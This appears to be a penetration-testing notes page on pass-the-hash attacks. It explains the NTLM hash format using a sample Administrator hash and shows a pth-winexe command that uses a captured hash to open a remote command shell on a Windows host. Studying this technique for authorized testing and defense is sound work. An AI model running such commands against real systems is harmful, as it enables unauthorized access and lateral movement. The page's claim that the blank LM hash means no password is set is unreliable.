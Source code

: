 # Pass the Hash
We can attempt to pass any hashes that we obtained to other servers in hopes that we can leverage a password-reuse attack. 
## NTLM Hashes
Below is an example of an NTLM hash.
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8118cb8789b3a147c790db402b016a08:::
```
The parts of the has are as follows,
```
(UID):(UID NUM):(LM HASH):(NT HASH):(COMMENT):(USER HOME PATH):
```
The LM hash of `aad3b435b51404eeaad3b435b51404ee` means that no password is set.
## PTH-Toolkit
The [Pass the Hash toolkit](https://github.com/byt3bl33d3r/pth-toolkit) is a modified version of the passing-the-hash tool collection https://code.google.com/p/passing-the-hash/ designed to be portable and work straight out of the box even on the most 'bare bones' systems.
#### pth-winexe
The `pth-winexe` program of the PTH-Toolkit attempts to use a captured NTLM hash to execute commands on the target server. Below is an example of it's usage,
```
root@demon:~# export SMBHASH=aad3b435b51404eeaad3b435b51404ee:8118cb8789b3a147c790db402b016a08
root@demon:~# pth-winexe -U adminstrator% //10.10.10.100 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
...(SNIPPED)...
```
